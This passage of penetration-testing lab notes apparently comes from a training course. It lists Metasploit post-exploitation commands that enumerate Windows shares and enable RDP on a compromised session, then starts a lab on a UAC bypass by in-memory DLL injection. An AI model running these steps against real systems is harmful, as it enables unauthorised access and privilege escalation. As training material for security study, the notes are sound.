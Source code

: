 - Enumerate any shares

```bash
search enum_shares
use post/windows/gather/enum_shares
set SESSION 1
run
```

![Metasploit - post/windows/gather/enum_shares](3-metasploitassets/image-20230419194507578.png)

- Check if RDP is enabled

```bash
search rdp platform:windows
use post/windows/manage/enable_rdp
set SESSION 1
run
```

![Metasploit - post/windows/manage/enable_rdp](3-metasploitassets/image-20230419194637948.png)

------

## Lab 2 - UAC Bypass

> 🔬 [UAC Bypass: Memory Injection (Metasploit)](https://attackdefense.com/challengedetailsnoauth?cid=2210)
>
> - Target IP: `10.2.18.116`
> - Metasploit [**`Windows Escalate UAC Protection Bypass (In Memory Injection)`**](https://www.rapid7.com/db/modules/exploit/windows/local/bypassuac_injection/) module
>   - *This module will bypass Windows UAC by utilizing the trusted publisher certificate through process injection. It will spawn a second shell that has the UAC flag turned off. This module uses the Reflective DLL Injection technique to drop only the DLL payload binary instead of three separate binaries in the standard technique. However, it requires the correct architecture to be selected, (use x64 for SYSWOW64 systems also). If specifying EXE::Custom your DLL should call ExitProcess() after starting your payload in a separate process.*
